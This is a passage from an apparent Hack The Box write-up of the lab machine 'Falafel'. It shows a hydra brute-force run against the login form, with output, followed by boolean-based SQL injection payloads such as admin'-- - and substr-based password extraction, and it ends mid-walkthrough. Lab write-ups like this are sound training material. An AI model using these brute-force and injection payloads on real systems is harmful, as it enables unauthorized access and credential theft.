 ```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -p test 10.10.10.73 http-post-form "/login.php:username=^USER^&password=^PASS^:F=try again"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-06 21:48:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 828 login tries (l:828/p:1), ~52 tries per task
[DATA] attacking http-post-form://10.10.10.73:80/login.php:username=^USER^&password=^PASS^:F=try again
[80][http-post-form] host: 10.10.10.73   login: ADMIN   password: test
[80][http-post-form] host: 10.10.10.73   login: Admin   password: test
[80][http-post-form] host: 10.10.10.73   login: admin   password: test
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-06 21:49:32
```

It turned out that there are two user exist : `admin`, `chris`.
I tried brute-force with two accounts, but none of them worked.



# Shell as `www-data`

### SQL Injection

I decided to move on to sql injection.
I guessed the query for the login.

```sql
SELECT * FROM USERS WHERE username='' AND password='bokchee'
```

If I put `admin'-- -` on username, then the query will be :

```sql
SELECT * FROM USERS WHERE username='admin'-- -' AND password='bokchee'

> SELECT * FROM USERS WHERE username='admin'
```

But still the response is `Wrong identification : admin`.
I think there might be some extra measures like checking if `password` parameter is included.

Here's my observation :
- If query has no error and the username exists, it returns "Wrong identification".
- If query has any error, it returns "Try again".

I thought I could use this to retrieve valid password.

I tried `admin' AND substr(password,1,1)='a'-- -`. Then the query will be :

```sql
SELECT * FROM USERS WHERE username='admin' AND substr(password,1,1)='a'-- -' AND password='bokchee'

> SELECT * FROM USERS WHERE username='admin' AND substr(password,1,1)='a'
```
